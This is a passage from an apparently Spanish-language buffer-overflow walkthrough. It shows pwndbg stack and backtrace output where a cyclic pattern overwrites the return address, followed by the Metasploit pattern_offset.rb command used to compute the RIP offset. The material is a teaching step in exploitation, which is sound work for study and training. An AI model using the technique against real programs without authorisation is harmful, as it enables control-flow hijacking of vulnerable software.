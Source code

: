 ```
 ► 0x55bd7d352288 <main+239>    ret                                <0x3164413064413963>
    ↓









──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffd723148c8 ◂— 0x3164413064413963 ('c9Ad0Ad1')
01:0008│     0x7ffd723148d0 ◂— 0x6441336441326441 ('Ad2Ad3Ad')
02:0010│     0x7ffd723148d8 ◂— 0x4136644135644134 ('4Ad5Ad6A')
03:0018│     0x7ffd723148e0 ◂— 0x3964413864413764 ('d7Ad8Ad9')
04:0020│     0x7ffd723148e8 ◂— 0x6541316541306541 ('Ae0Ae1Ae')
05:0028│     0x7ffd723148f0 ◂— 0x4134654133654132 ('2Ae3Ae4A')
06:0030│     0x7ffd723148f8 ◂— 0x3765413665413565 ('e5Ae6Ae7')
07:0038│     0x7ffd72314900 ◂— 0x6641396541386541 ('Ae8Ae9Af')
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0   0x55bd7d352288 main+239
   1 0x3164413064413963 None
   2 0x6441336441326441 None
   3 0x4136644135644134 None
   4 0x3964413864413764 None
   5 0x6541316541306541 None
   6 0x4134654133654132 None
   7 0x3765413665413565 None
─────────────────────────────────────────────────────────────────────────────────
```

Vemos esta parte de aqui:

```
────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────────
 ► 0x55bd7d352288 <main+239>    ret                                <0x3164413064413963>
```

Que es la parte que nos interesa, ya que se muestra la direccion de memoria al cual le vamos a encontrar el `offset` de la siguiente forma:

### Identificación del Offset

Para determinar el desplazamiento exacto (`offset`) donde ocurre la `sobrescritura`, usamos `pattern_offset.rb`, proporcionando la dirección en hexadecimal obtenida del `RIP`:

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x3164413064413963
```
